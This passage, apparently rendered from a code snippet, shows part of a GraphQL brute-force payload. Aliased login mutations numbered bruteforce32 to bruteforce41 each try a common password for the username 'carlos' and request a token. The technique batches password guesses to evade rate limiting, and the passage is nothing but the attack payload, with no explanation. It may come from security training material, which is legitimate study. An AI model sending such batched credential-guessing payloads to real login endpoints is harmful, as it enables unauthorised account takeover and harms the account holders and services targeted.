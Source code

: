 ```bash
    }


bruteforce32:login(input:{password: "killer", username: "carlos"}) {
        token
        success
    }


bruteforce33:login(input:{password: "trustno1", username: "carlos"}) {
        token
        success
    }


bruteforce34:login(input:{password: "jordan", username: "carlos"}) {
        token
        success
    }


bruteforce35:login(input:{password: "jennifer", username: "carlos"}) {
        token
        success
    }


bruteforce36:login(input:{password: "zxcvbnm", username: "carlos"}) {
        token
        success
    }


bruteforce37:login(input:{password: "asdfgh", username: "carlos"}) {
        token
        success
    }


bruteforce38:login(input:{password: "hunter", username: "carlos"}) {
        token
        success
    }


bruteforce39:login(input:{password: "buster", username: "carlos"}) {
        token
        success
    }


bruteforce40:login(input:{password: "soccer", username: "carlos"}) {
        token
        success
    }


bruteforce41:login(input:{password: "harley", username: "carlos"}) {
        token
        success
    }


```